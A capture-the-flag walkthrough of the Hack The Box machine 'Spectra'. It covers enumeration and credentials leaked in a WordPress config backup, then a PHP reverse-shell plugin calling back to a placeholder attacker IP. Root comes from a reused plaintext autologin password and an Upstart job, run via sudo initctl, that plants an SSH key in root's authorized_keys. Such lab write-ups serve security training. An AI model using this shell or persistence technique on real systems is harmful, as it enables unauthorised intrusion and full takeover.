






<p align="center"></img></p>
<p align="center">Creator: <a href="https://app.hackthebox.eu/profile/1190">egre55</a></p>

# Personal thoughts
Easy peasy lemon squeezy; just need to do a little bit of enumeration, even you don't need any special tenhniques for this box. I tried to explain the steps as simple as I can. Hope you'll find it useful; if so, consider [suporting]() a student to get `OSCP` exam and +respecting my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">

</img></a><br>
Now, let me get right into it.

---
# Reconnaissance

Let's first start with our classical nmap scan:
```bash
nmap -sS -sC -sV -p- 10.10.10.229
```
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
```

Here we have two ports except `22/ssh`, let's start enumerating from `80/http`.

## 80/http
As you can see, we have a domain with two directories located under.



First add `spectra.htb` to your `/etc/hosts` file.<br>
If we go ahead and have a look at /testing directory, we'll see that we got the whole content of the wordpress directory.



__Remember:__ The `wp-config.php` file in the wordpress directories usually has the required credentials for login.<br>
But in this case, we find the credentials in the `.save` file of the config file.



- `devtest`:`devteam01`

I think we got what we expected to from this directory, moving to `/main` gives us the wordpress site. We also got a username from the first post of wordpress: `administrator`

Apart from that, I found an `XSS` in the comments of the first post. But we're going to exploit this box using wordpress reverse shell techniques, that's why there's no need to use `XSS`.

So we got the wordpress username, a couple of credentials. Now the scenerio is simple, which is getting a reverse shell through an authenticated wordpress cms.

At this point we don't need further enumeration, so I stopped searching for any other interesting things and focused on getting a reverse shell.

# Foothold: Wordpress Reverse Shell
There are many different ways to get a reverse shell from an authenticated wordpress panel. One of them is to change the content of theme files using the embedded `Theme editor`. But in this writeup, we're going to go with another one, which is uploading a malicious plugin.

- Check out [this](https://www.hackingarticles.in/wordpress-reverse-shell/) article for more information and explanation about the topic.

First we need to create a file with a reverse shell in it. Don't worry, I'm about to give the file to you : )

__f4T1H.php__
```php
<?php
/**
* Plugin Name: WordPress Reverse Shell Plugin
* Author: f4T1H
*/

$sock=fsockopen("YOUR_IP_HERE",2121);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Then we compress the PHP file into a `.zip` file. And of course start a nc listener.

```bash
┌──(root💀f4T1H)-[~/hackthebox/spectra]
└─> zip f4T1H.zip f4T1H.php    
  adding: f4T1H.php (deflated 19%)

┌──(root💀f4T1H)-[~/hackthebox/spectra]
└─> nc -lvnp 2121    
listening on [any] 2121 ...
```

After that, go authenticate wordpress panel from `http://spectra.htb/main/wp-login.php` and install the plugin.



And activate the reverse shell plugin.



As soon as we activate the plugin, we got a reverse connection on our nc listener...

```bash
┌──(root💀f4T1H)-[~/hackthebox/spectra]
└─> nc -lvnp 2121
listening on [any] 2121 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.229] 41518
$ id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$
```

# Privilege Escalation: `initctl`

## user part

Before escalating to root, we need to escalate user first. After a little bit of enumeration, we encounter an interesting file in /opt/autologin.conf.orig

```bash
nginx@spectra ~ $ ls -lah /opt     
ls -lah /opt
total 44K
drwxr-xr-x 10 root root 4.0K Feb  3 16:42 .
drwxr-xr-x 22 root root 4.0K Feb  2 14:52 ..
drwxr-xr-x  2 root root 4.0K Jun 28  2020 VirtualBox
-rw-r--r--  1 root root  978 Feb  3 16:02 autologin.conf.orig
drwxr-xr-x  2 root root 4.0K Jan 15 15:53 broadcom
drwxr-xr-x  2 root root 4.0K Jan 15 15:54 displaylink
drwxr-xr-x  2 root root 4.0K Jan 15 15:53 eeti
drwxr-xr-x  5 root root 4.0K Jan 15 15:55 google
drwxr-xr-x  6 root root 4.0K Feb  2 15:15 neverware
drwxr-xr-x  5 root root 4.0K Jan 15 15:54 tpm1
drwxr-xr-x  5 root root 4.0K Jan 15 15:54 tpm2
nginx@spectra ~ $ file /opt/autologin.conf.orig
file /opt/autologin.conf.orig
/opt/autologin.conf.orig: ASCII text, with CRLF line terminators
nginx@spectra ~ $ cat /opt/autologin.conf.orig
cat /opt/autologin.conf.orig
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end scriptnginx@spectra ~ $
```

As you can see here, the content of `/mnt/stateful_partition/etc/autologin/passwd` is being copied to `/etc/autologin/passwd` when the script is run.

So, let's check if `/etc/autologin/passwd` exists!

```bash
nginx@spectra ~ $ file /etc/autologin/passwd
file /etc/autologin/passwd
/etc/autologin/passwd: ASCII text
nginx@spectra ~ $ cat /etc/autologin/passwd
cat /etc/autologin/passwd
SummerHereWeCome!!
nginx@spectra ~ $
```

Looks like we got a password, NICE!

```bash
nginx@spectra ~ $cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
nginx:x:20155:20156::/home/nginx:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
nginx@spectra ~ $
```

After some hit and try, I came out that this password belongs to user `katie`.

```bash
nginx@spectra ~ $ ssh katie@localhost
ssh katie@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/home/chronos/user/.ssh/known_hosts).
Password: SummerHereWeCome!!

katie@spectra ~ $ id
id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $
```

Okay, now we can escalate to root, let's start...

## root part
Let's see which binaries we can execute with sudo privileges.

```bash
katie@spectra ~ $ sudo -l
sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

> initctl allows a system administrator to communicate and interact with the Upstart init(8) daemon.

Let's first list the jobs:
```bash
sudo /sbin/initctl list
```

Okay, here we can try to inject a code by modifying service `test` which is customized service, does not come up as default job.

- For more [information](https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9)

Here we'll write our public ssh key into the `/root/.ssh/authorized_keys`.<br>
You can find your default public ssh key from `~/.ssh/id_rsa.pub` if you generated before. If not, then use `ssh-keygen` command to generate a public-private ssh key pair.

I'm giving the codes just in case:
```bash
cat - << EOF > /etc/init/test3.conf
description "Add pubkey to authorized_keys job"
author      "f4T1H"

start on filesystem or runlevel [2345]
stop on shutdown

script
    echo "YOUR PUBLIC SSH KEY HERE" | tee /root/.ssh/authorized_keys
end script
EOF

sudo /sbin/initctl start test3
```




And we successfully pwned the machine...


---

# Closing
If you liked my writeup, consider [suporting]() a student to get `OSCP` exam and +respecting my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">

</img></a>

# Resources
|`WordPress Reverse Shell`|https://www.hackingarticles.in/wordpress-reverse-shell/|
|:-|:-|
|`initctl with sudo`|__https://isharaabeythissa.medium.com/sudo-privileges-at-initctl-privileges-escalation-technique-ishara-abeythissa-c9d44ccadcb9__|

___Written by f4T1H___
